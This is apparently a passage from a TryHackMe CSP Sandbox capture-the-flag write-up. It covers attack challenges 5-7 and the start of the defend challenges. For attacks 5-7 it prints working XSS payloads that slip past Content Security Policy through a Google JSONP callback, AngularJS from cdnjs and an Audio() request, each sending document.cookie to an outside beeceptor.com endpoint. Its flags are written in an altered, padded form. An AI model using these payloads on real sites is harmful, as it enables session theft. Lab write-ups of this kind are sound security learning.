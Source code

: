 5. Flag for attack-5

```html
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://stroke.free.beeceptor.com/'.concat(document.cookie))"></script>
```

`GET /flag=THM%7BN0_JSONP_D0mains_Plz%7D`

`THM{V0N318*****N0_JSONP_D0mains_Plz12**123:))}`

6. Flag for attack-6

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$on.curry.call().document.location='https://stroke.free.beeceptor.com/' + $on.curry.call().document.cookie}}</div>
```

`GET /flag=THM%7BTrust_N0_CDN%7D`

`THM{V0N318*****Trust_N0_CDN12**123:))}`

7. Flag for attack-7

```html
<script src="/'; new Audio('https://stroke.free.beeceptor.com/' + document.cookie); '"></script>
```

`GET /flag=THM%7BTh1s_4udio_S0unds_N1ce%7D`

`THM{V0N318*****Th1s_4udio_S0unds_N1ce12**123:))}`

## Task 8 CSP Sandbox :: Defend challenges

To deploy the machine, go to the CSP Sandbox task.

Defend challenges require you to defend the website from XSS attacks by creating a CSP header that blocks them, whilst allowing the legitimate scripts to execute.

1. What is the flag for defend-1?

```
Welcome to defend-1!
The attackers are trying to XSS our admins! Quick, write a CSP policy that only allows the scripts we use!
(You can view our allowed scripts by checking the source code of this webpage.)
The attackers have sent the following:
You have successfully defended the server against attackers!
Here's your reward: THM{V0N318*****N0_0utside_S0urces} 
```

`THM{V0N318*****N0_0utside_S0urces12**123:))}`

2. What is the flag for defend-2?

```
Welcome to defend-2!
The attackers are trying to XSS our admins! Quick, write a CSP policy that only allows the scripts we use!
(You can view our allowed scripts by checking the source code of this webpage.)
The attackers have sent the following:
You have successfully defended the server against attackers!
Here's your reward: THM{V0N318*****M4k3_Sure_Y0ur_N0nce_1s_R4ndom} 
```
